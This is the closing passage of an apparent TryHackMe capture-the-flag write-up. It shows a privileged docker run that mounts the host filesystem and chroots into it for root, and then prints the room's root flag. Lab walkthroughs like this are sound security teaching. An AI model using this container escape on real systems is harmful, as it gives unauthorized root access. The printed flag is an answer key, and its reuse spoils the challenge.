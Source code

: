 ```shell
#Run the Image mounting the host disk and chroot on it. Basically it will copy the / directory of the mount to our local mount.
docker run -it --privileged  -v /:/mnt/ <Docker Image ID> chroot /mnt/ bash
```
![Desktop View](/assets/nyfl/root.png){: width="900" height="500" }

BINGO!!!! Now we are in the root of "Gradle" Container and we got the root.txt flag as well.

root flag: ```THM{b3653cb04abf4a5b9c7a77ec52f550e73416b6e61015b8014fff9831a7eb61ce}```

Thats it guys, Now we Pawned this box. Hope you learnt something new from this blog.

```Happy Hacking :) ```
